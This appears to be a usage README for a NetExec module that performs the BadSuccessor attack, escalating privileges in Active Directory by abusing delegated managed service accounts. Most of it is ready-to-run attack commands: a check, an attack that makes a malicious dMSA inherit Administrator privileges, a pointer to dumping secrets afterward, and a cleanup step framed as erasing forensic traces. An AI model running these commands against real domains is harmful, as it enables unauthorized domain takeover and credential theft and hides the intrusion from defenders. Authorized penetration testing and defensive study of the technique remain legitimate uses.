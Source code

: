 # BadSuccessor Module Usage Examples

The BadSuccessor module implements the BadSuccessor attack capability for NetExec, allowing you to exploit dMSA (Delegated Managed Service Account) privilege escalation vulnerabilities in Active Directory environments.

## Overview

This module implements three main actions:
- **check**: Check domain functional level, schema, and enumerate vulnerable OUs for dMSA creation
- **attack**: Perform the BadSuccessor attack by creating a malicious dMSA
- **cleanup**: Clean up a created dMSA

## Prerequisites

- Windows Server 2025 domain functional level (or compatible schema)
- Valid LDAP credentials with appropriate permissions
- Target must support dMSA objects

## Usage Examples

### 1. Check for Vulnerability (Default Action)

```bash
# Basic check - scans for vulnerable OUs and verifies schema support
nxc ldap <target> -u <username> -p <password> -M badsuccessor

# Equivalent explicit check
nxc ldap <target> -u <username> -p <password> -M badsuccessor -o ACTION=check
```

This will:
- Check domain functional level
- Verify Windows Server 2025 dMSA schema elements
- Enumerate OUs where you have CreateChild permissions for dMSA objects
- Show potential attack targets

### 2. Perform the Attack

```bash
# Attack with automatic OU discovery
nxc ldap <target> -u <username> -p <password> -M badsuccessor -o ACTION=attack TARGET_USER=Administrator

# Attack with specific OU and custom dMSA name
nxc ldap <target> -u <username> -p <password> -M badsuccessor -o ACTION=attack TARGET_USER=Administrator DMSA_NAME=my_evil_dmsa OU_DN="OU=Computers,DC=domain,DC=com"
```

This will:
- Create a malicious dMSA in the specified (or auto-discovered) OU
- Set the predecessor link to the target user
- Grant the dMSA the privileges of the target user

### 3. Cleanup

```bash
# Remove the created dMSA
nxc ldap <target> -u <username> -p <password> -M badsuccessor -o ACTION=cleanup DMSA_FULL_DN="CN=evil_dmsa,OU=Computers,DC=domain,DC=com"
```

## Module Options

| Option | Description | Required | Default |
|--------|-------------|----------|---------|
| `ACTION` | Action to perform: check, attack, cleanup | No | check |
| `TARGET_USER` | Username to impersonate (e.g., Administrator) | Yes (for attack) | - |
| `DMSA_NAME` | Name for the malicious dMSA | No | evil_dmsa |
| `OU_DN` | Distinguished Name of OU for dMSA creation | No | Auto-discovered |
| `DMSA_FULL_DN` | Full DN of dMSA to remove | Yes (for cleanup) | - |

## Attack Flow

1. **Reconnaissance**: Use the `check` action to identify vulnerable OUs and verify schema support
2. **Exploitation**: Use the `attack` action to create a malicious dMSA linked to a high-privilege user
3. **Post-Exploitation**: Authenticate as the dMSA to gain the target user's privileges
4. **Cleanup**: Use the `cleanup` action to remove traces

## Example Attack Scenario

```bash
# Step 1: Check for vulnerability
nxc ldap 192.168.1.10 -u lowpriv -p password123 -M badsuccessor

# Step 2: Perform attack (if vulnerable OUs found)
nxc ldap 192.168.1.10 -u lowpriv -p password123 -M badsuccessor -o ACTION=attack TARGET_USER=Administrator

# Step 3: Use the created dMSA for further exploitation
# (Use other tools like secretsdump.py with the dMSA credentials)

# Step 4: Cleanup
nxc ldap 192.168.1.10 -u lowpriv -p password123 -M badsuccessor -o ACTION=cleanup DMSA_FULL_DN="CN=evil_dmsa,OU=SomeOU,DC=domain,DC=com"
```

## Security Considerations

- This module modifies Active Directory objects and may trigger security alerts
- The `opsec_safe` flag is set to `True`, but any AD modification carries detection risk
- Always clean up created objects to minimize forensic traces
- Ensure you have proper authorization before using this in any environment

## Troubleshooting

- **Schema not found**: Domain may not be at Windows Server 2025 functional level
- **Permission denied**: User may lack CreateChild permissions on target OUs
- **No writable OUs found**: Current user may need higher privileges or different OU permissions
- **dMSA creation failed**: Check domain functional level, schema support, and LDAP connectivity

## References

- [Akamai BadSuccessor Research](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)
- [Original PowerShell Implementation](https://raw.githubusercontent.com/akamai/BadSuccessor/refs/heads/main/Get-BadSuccessorOUPermissions.ps1)

